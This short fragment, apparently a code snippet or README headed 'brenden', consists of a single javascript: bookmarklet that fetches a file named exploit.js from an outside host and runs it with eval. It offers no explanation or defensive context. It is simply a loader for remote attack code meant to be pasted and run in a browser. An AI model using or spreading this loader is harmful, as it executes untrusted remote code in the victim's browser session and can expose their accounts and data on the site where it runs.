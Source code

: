 # brenden
javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});

